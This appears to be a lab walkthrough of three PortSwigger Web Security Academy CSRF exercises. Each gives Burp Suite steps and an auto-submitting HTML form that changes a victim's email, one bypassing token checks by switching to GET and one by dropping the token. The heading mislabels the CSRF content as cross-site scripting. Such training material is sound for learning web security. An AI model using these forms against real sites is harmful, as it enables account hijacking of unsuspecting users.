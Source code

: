 # Some cases of Cross-site scripting

## 1. CSRF vulnerability with no defenses

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

If you're using Burp Suite Community Edition, use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".

```html
<html>
    <body>
        <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="hacker@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".

To verify that the exploit works, try it on yourself by clicking "View exploit" and then check the resulting HTTP request and response.

Change the email address in your exploit so that it doesn't match your own.

Click "Deliver to victim" to solve the lab.

## 2. CSRF where token validation depends on request method

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

Send the request to Burp Repeater and observe that if you change the value of the csrf parameter then the request is rejected.

Use "Change request method" on the context menu to convert it into a GET request and observe that the CSRF token is no longer verified.

If you're using Burp Suite Community Edition, use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".

```html
<html>
    <body>
        <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="hackers@hacker.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".

To verify if the exploit will work, try it on yourself by clicking "View exploit" and checking the resulting HTTP request and response.

Change the email address in your exploit so that it doesn't match your own.

Store the exploit, then click "Deliver to victim" to solve the lab.

## 3. CSRF where token validation depends on token being present

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

Send the request to Burp Repeater and observe that if you change the value of the `csrf` parameter then the request is rejected.

Delete the `csrf` parameter entirely and observe that the request is now accepted.

if you're using Burp Suite Community Edition, use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```

Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".

To verify if the exploit will work, try it on yourself by clicking "View exploit" and checking the resulting HTTP request and response.

Change the email address in your exploit so that it doesn't match your own.

Store the exploit, then click "Deliver to victim" to solve the lab.
